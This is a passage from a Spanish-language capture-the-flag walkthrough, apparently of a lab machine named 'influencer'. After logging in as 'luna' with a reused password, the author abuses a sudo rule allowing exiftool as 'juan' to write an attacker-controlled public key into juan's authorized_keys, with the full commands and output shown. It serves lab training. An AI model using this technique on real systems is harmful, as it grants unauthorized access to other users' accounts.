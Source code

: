 Ahora lo que hago es probar la contraseña de backup obtenida anteriormente con el usuario **luna**.

```
$ ssh luna@192.168.1.112 -p 4444                        
[...]
Last login: Fri Jun  9 10:12:13 2023
luna@influencer:~$ :)
```

Una vez dentro como **luna**, se puede ver rápidamente que tiene permisos para ejecutar **exiftool** como el usuario **juan**.

```
luna@influencer:~$ sudo -l
Matching Defaults entries for luna on influencer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luna may run the following commands on influencer:
    (juan) NOPASSWD: /usr/bin/exiftool
```

Como se puede ver en **[GTFOBINS](https://gtfobins.github.io/gtfobins/exiftool/#sudo)**, se puede utilizar esta herramienta para leer/escribir archivos. Por lo que para poder obtener acceso como el usuario Juan puedo añadir una clave id_rsa que yo controle a su fichero **authorized_keys**.

Lo primero es crear un par de claves nuevas en el directorio /tmp.

```
$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/luna/.ssh/id_rsa): /tmp/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /tmp/id_rsa
Your public key has been saved in /tmp/id_rsa.pub
The key fingerprint is:
SHA256:BEoPNqJcpL6lNb5dPyKIWiymhCwF4KuFVtnnDXAabzQ luna@influencer
The key's randomart image is:
+---[RSA 3072]----+
|. oo=o.E         |
|+.o+o=B..        |
|o+ o.o.=.        |
|.oo   +.o        |
|.+o+   .S.       |
|=+* .            |
|=*+..  .         |
|=+ .o.....       |
|+  . .. ...      |
+----[SHA256]-----+
```

Una vez creadas, utilizo **sudo** y **exiftool** para copiarlo a **/home/juan/.ssh/**.

```
luna@influencer:/tmp$ sudo -u juan exiftool -filename=/home/juan/.ssh/authorized_keys id_rsa.pub
Warning: Error removing old file - id_rsa.pub
    1 directories created
    1 image files updated
```
